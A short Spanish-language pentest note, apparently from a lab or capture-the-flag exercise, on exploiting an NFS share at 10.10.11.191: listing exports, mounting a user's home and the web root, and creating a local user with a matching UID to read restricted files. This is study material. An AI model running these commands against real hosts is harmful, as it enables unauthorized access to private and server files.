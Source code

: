 # NFS - 2049

## Listar monturas
```null
showmount -e 10.10.11.191
```

## Creación de monturas
```null
mkdir /mnt/ross
mkdir /mnt/web_server
mount -t nfs 10.10.11.191:/home/ross /mnt/ross
mount -t nfs 10.10.11.191:/var/www/html /mnt/web_server
```

## Creación de usuarios para obtener más privilegios en función del archivo
```null
useradd ross -u 2017
groupmod -g 2017 ross
su ross
bash
```

